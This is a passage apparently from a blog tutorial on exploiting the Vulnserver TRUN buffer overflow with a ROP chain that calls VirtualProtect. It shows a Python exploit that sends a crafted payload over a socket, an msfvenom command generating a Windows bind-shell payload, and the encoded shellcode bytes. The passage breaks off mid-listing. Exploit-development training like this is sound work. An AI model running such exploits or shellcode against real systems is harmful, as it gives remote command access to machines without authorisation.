 ``` python
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And check it:

<div class="imgblock">

![ROP Chain](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331217/blog/vulnserver-trun-rop/run4_ayeb4j.gif)

</div>

Isn’t it wonderful? We were able to setup the call to `VirtualProtect()`
with the required parameters using `ROP`.

Let’s resume the execution to check if that worked:

<div class="imgblock">

![ROP Chain](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331216/blog/vulnserver-trun-rop/run5_mxyouz.gif)

</div>

Indeed\! Again, we were able to make `EAX = 0xdeadbeef` using a
traditional shellcode. We can now replace that mock shellcode with one
of our good ol' ones from `msfvenom`:

``` console
$ msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xda\xd3\xbe\xaa\x69\x45\x3a\xd9\x74\x24\xf4\x5a"
SHELL += b"\x2b\xc9\xb1\x53\x31\x72\x17\x03\x72\x17\x83\x68"
SHELL += b"\x6d\xa7\xcf\x90\x86\xa5\x30\x68\x57\xca\xb9\x8d"
SHELL += b"\x66\xca\xde\xc6\xd9\xfa\x95\x8a\xd5\x71\xfb\x3e"
SHELL += b"\x6d\xf7\xd4\x31\xc6\xb2\x02\x7c\xd7\xef\x77\x1f"
SHELL += b"\x5b\xf2\xab\xff\x62\x3d\xbe\xfe\xa3\x20\x33\x52"
SHELL += b"\x7b\x2e\xe6\x42\x08\x7a\x3b\xe9\x42\x6a\x3b\x0e"
SHELL += b"\x12\x8d\x6a\x81\x28\xd4\xac\x20\xfc\x6c\xe5\x3a"
SHELL += b"\xe1\x49\xbf\xb1\xd1\x26\x3e\x13\x28\xc6\xed\x5a"
SHELL += b"\x84\x35\xef\x9b\x23\xa6\x9a\xd5\x57\x5b\x9d\x22"
SHELL += b"\x25\x87\x28\xb0\x8d\x4c\x8a\x1c\x2f\x80\x4d\xd7"
SHELL += b"\x23\x6d\x19\xbf\x27\x70\xce\xb4\x5c\xf9\xf1\x1a"
SHELL += b"\xd5\xb9\xd5\xbe\xbd\x1a\x77\xe7\x1b\xcc\x88\xf7"
SHELL += b"\xc3\xb1\x2c\x7c\xe9\xa6\x5c\xdf\x66\x0a\x6d\xdf"
SHELL += b"\x76\x04\xe6\xac\x44\x8b\x5c\x3a\xe5\x44\x7b\xbd"
SHELL += b"\x0a\x7f\x3b\x51\xf5\x80\x3c\x78\x32\xd4\x6c\x12"
SHELL += b"\x93\x55\xe7\xe2\x1c\x80\x92\xea\xbb\x7b\x81\x17"
SHELL += b"\x7b\x2c\x05\xb7\x14\x26\x8a\xe8\x05\x49\x40\x81"
SHELL += b"\xae\xb4\x6b\xbc\x72\x30\x8d\xd4\x9a\x14\x05\x40"
SHELL += b"\x59\x43\x9e\xf7\xa2\xa1\xb6\x9f\xeb\xa3\x01\xa0"
```